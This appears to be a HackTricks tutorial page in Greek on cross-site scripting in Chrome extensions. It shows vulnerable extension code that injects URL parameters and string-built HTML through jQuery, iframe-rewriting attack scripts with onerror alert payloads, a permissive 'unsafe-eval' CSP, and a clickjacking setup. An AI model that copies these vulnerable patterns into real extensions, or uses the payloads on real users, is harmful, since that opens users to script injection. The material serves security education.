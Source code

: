 # BrowExt - XSS Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) μέσω Iframe

Σε αυτή τη ρύθμιση, ένα **content script** υλοποιείται για να δημιουργήσει ένα Iframe, ενσωματώνοντας μια διεύθυνση URL με παραμέτρους ερωτήματος ως πηγή του Iframe:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
Μια δημόσια προσβάσιμη σελίδα HTML, **`message.html`**, έχει σχεδιαστεί για να προσθέτει δυναμικά περιεχόμενο στο σώμα του εγγράφου με βάση τις παραμέτρους στη διεύθυνση URL:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
Ένα κακόβουλο σενάριο εκτελείται στη σελίδα ενός αντιπάλου, τροποποιώντας την παράμετρο `content` της πηγής του Iframe για να εισάγει ένα **XSS payload**. Αυτό επιτυγχάνεται ενημερώνοντας την πηγή του Iframe για να περιλαμβάνει ένα επιβλαβές σενάριο:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
Μια υπερβολικά επιτρεπτική Πολιτική Ασφαλείας Περιεχομένου όπως:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
επιτρέπει την εκτέλεση JavaScript, καθιστώντας το σύστημα ευάλωτο σε επιθέσεις XSS.

Μια εναλλακτική προσέγγιση για να προκληθεί το XSS περιλαμβάνει τη δημιουργία ενός στοιχείου Iframe και την ρύθμιση της πηγής του ώστε να περιλαμβάνει το επιβλαβές σενάριο ως την παράμετρο `content`:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-based XSS + ClickJacking

Αυτό το παράδειγμα προήλθε από την [αρχική ανάρτηση](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Το κύριο πρόβλημα προέρχεται από μια ευπάθεια Cross-site Scripting (XSS) που βασίζεται στο DOM, η οποία βρίσκεται στο **`/html/bookmarks.html`**. Ο προβληματικός JavaScript, μέρος του **`bookmarks.js`**, αναλύεται παρακάτω:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
Αυτό το απόσπασμα ανακτά την **τιμή** από το **`txtName`** πεδίο εισόδου και χρησιμοποιεί **συγκέντρωση συμβολοσειρών για να δημιουργήσει HTML**, το οποίο στη συνέχεια προσαρτάται στο DOM χρησιμοποιώντας τη μέθοδο `.append()` της jQuery.

Συνήθως, η Πολιτική Ασφάλειας Περιεχομένου (CSP) της επέκτασης Chrome θα εμπόδιζε τέτοιες ευπάθειες. Ωστόσο, λόγω της **χαλάρωσης CSP με ‘unsafe-eval’** και της χρήσης μεθόδων χειρισμού DOM της jQuery (οι οποίες χρησιμοποιούν [`globalEval()`](https://api.jquery.com/jquery.globaleval/) για να περάσουν σενάρια στο [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) κατά την εισαγωγή στο DOM), η εκμετάλλευση είναι ακόμα δυνατή.

Ενώ αυτή η ευπάθεια είναι σημαντική, η εκμετάλλευσή της εξαρτάται συνήθως από την αλληλεπίδραση του χρήστη: επισκεπτόμενος τη σελίδα, εισάγοντας ένα XSS payload και ενεργοποιώντας το κουμπί “Προσθήκη”.

Για να ενισχυθεί αυτή η ευπάθεια, εκμεταλλεύεται μια δευτερεύουσα ευπάθεια **clickjacking**. Το μανιφέστο της επέκτασης Chrome παρουσιάζει μια εκτενή πολιτική `web_accessible_resources`:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Σημαντικά, η **`/html/bookmarks.html`** σελίδα είναι επιρρεπής σε framing, επομένως ευάλωτη σε **clickjacking**. Αυτή η ευπάθεια εκμεταλλεύεται για να πλαισιώσει τη σελίδα μέσα σε έναν ιστότοπο του επιτιθέμενου, επικαλύπτοντάς την με στοιχεία DOM για να ανασχεδιάσει παραπλανητικά τη διεπαφή. Αυτή η χειραγώγηση οδηγεί τα θύματα να αλληλεπιδρούν με την υποκείμενη επέκταση ακούσια.

## Αναφορές

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
